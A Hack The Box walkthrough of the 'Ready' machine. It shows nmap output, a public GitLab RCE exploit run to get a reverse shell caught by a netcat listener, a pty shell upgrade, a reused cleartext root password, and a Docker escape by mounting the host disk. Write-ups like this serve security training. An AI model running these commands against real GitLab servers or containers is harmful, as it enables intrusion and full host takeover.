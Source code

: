 # 📦 HTB - Ready


> Cool box, maybe too easy for a medium? Got reverse shell in minutes, but stuck for root's password for hours 😅

## TL;DR

Gitlab RCE, get reverse shell. Privesc with cleartext root password, escape Docker to own the box.

## Footholds

### nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-14 16:00 UTC
Nmap scan report for 10.10.10.220
Host is up (0.035s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.36 seconds
```

We get an NGINX service running on port `5080`, and we know there is a GitLab on it. Let's check it out!

## Entrypoint

![gitlab.png](gitlab.png)

First thing I did was creating an account to see what's up with this GitLab. Unfortunately, there is no open projects we can mess with:

![projetcs.png](gitlab_projects.png)

A common reflex here is to check the version of the service, let's go to `/help`:

![version.png](gitlab_version.png)

This seems very interesting for us! What do we have for this version?

![vulns.png](gitlab_vulns.png)

Well, we can see there are a lot of exploits in the wild. Let's use the first we find: https://github.com/dotPY-hax/gitlab_RCE

```sh
python gitlab_rce.py http://ready.htb:5080 10.10.14.28
```

We follow the instructions, and create a listener with netcat:

```
nc -vlnp 42069 
Connection from 10.10.10.220:39478
bash: cannot set terminal process group (509): Inappropriate ioctl for device
bash: no job control in this shell
git@gitlab:~/gitlab-rails/working$
```

And we got a reverse shell!

## User

Very simple user here:

```
git@gitlab:~$ cat /home/dude/user.txt
```

### Upgrade shell

We want a good shell here:

```
git@gitlab:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
ninja@null $ stty raw -echo; fg
git@gitlab:~$
```

![shell.png](shell.png)

We want to get root now.

## Root

The classical privesc enumerators, like `linenum`, `linpeas` or `lse` are telling us we are in a Docker container. We will firstly try to get root in the container in order to escape from it later.

### Get root in container

Running the enumeration scripts, we get some passwords on the system:

![passwords.png](passwords.png)

Of course, there is no way a GitLab SMTP password could be root's as well, right?

![glissade.png](glissade.png)

![](https://media.giphy.com/media/3oEhmGVYRFGFLDYSWI/giphy.gif)

### Escape the container

Now that we are root in the container, it is pretty easy to escape:

```
mkdir /tmp/cheh
mount /dev/sda2 /tmp/cheh
ls /tmp/cheh
cat /tmp/cheh/root/root.txt
```

![root.png](root.png)

Reference: https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#i-own-root

![Rooted](rooted.png)


